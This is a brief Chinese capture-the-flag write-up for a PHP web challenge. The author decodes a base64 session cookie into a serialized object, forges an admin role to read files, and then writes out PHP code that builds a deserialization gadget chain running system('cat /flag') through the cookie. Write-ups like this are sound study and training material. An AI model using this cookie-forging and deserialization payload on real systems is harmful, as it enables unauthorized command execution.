

# 极地大乱斗

打开是个名字，随便输入任意名字看看



在read.html页面抓包，看到header头里面存在一个session


```
TzozOiJjdGYiOjI6e3M6NDoibmFtZSI7czo0OiJ0ZXN0IjtzOjU6InBvd2VyIjtzOjU6InVzZXJzIjt9
```

base64解码


然后我们读取文件


需要变成admin，我们尝试伪造一下看看


可以成功读取文件


在read.php存在反序列化

读取cookies.php


简单的反序列化，可以直接命令执行

```php
class ctf{
    public $name;
    public $power;
}
class web{
    public $evil;
}

}
class hacker{
    public $name;
}
$a = new ctf();
$a->name= new web();
$a->name->evil=new hacker();
$a->name->evil->name="system('cat /flag')";
echo base64_encode(serialize($a));
```

把输出传入cookies即可命令执行